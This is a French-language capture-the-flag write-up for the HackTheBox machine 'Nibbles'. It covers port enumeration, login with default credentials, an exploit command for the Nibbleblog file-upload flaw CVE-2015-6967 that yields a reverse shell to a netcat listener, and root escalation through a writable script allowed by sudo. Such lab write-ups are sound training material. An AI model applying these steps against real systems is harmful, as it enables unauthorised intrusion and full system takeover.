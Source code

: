 ```yaml
---
title: HTB | Nibbles
description: Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.
slug: nibbles-htb
date: 2025-01-13 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Nibbles cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Nibbles</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.75</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sS -sC -sV -An -p- -vvv 10.10.10.75

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
```

## Foothold

### nibbleblog
Avec gobuster, on trouve aucun dossier interessant sur le serveur web. Par contre, avec burp on trouve une commentaire indiquant l'existante d'un dossier "nibbleblog"
```bash
HTTP/1.1 200 OK
Date: Sun, 12 Jan 2025 23:30:36 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Thu, 28 Dec 2017 20:19:50 GMT
ETag: "5d-5616c3cf7fa77-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Length: 93
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

### admin.php
En cherchant un peu, on trouve une page de login "admin.php" avec une page login. Avec les creds trouvés sur internet on a:
user: admin
password: nibbles

On accède au dashboard de nibbles

### Arbitrary File Upload - user flag
Sur internet, on trouve uen vuln sur nibbleblog :

Nibbleblog 4.0.3 - Arbitrary File Upload (CVE-2015-6967)

```bash
python3 exploit.py --url http://nibbles.htb/nibbleblog/ -u admin -p nibbles -x shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.

-----------------------------------------------------------

$ nc -lnvp 1337                       
listening on [any] 1337 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.75] 34102
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:01:44 up  9:25,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ env | grep TERM
$ env
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=nibbler
APACHE_RUN_GROUP=nibbler
APACHE_LOG_DIR=/var/log/apache2
PWD=/
$ cd /home
$ ls
nibbler
$ cd nibbler
$ ls
personal.zip
user.txt
$ cat user.txt
962b.....e815
```

## Privilege Escalation

### personal.zip
On trouve dans le /home de nibbler un fichier personal.zip avec un fichier vulnerable monitor.sh qui execute une commande en tant que root

### monitor.sh
On peut executer ce fichier en tant que root.
```bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Il suffit donc de créer un dossier personal/stuff et d'y mettre un script monitor.sh avec un `cat /root/root.txt`. On peut ensuite l'executé avec **sudo** :
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
4b0a.....a0b8
```

### root shell
Pour plus de défi, j'ouvre un shell en tant que root. En fait, c'était encore plus facile que de faire un cat...
```bash
$ sudo ./monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff# echo "/bin/bash" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff# sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```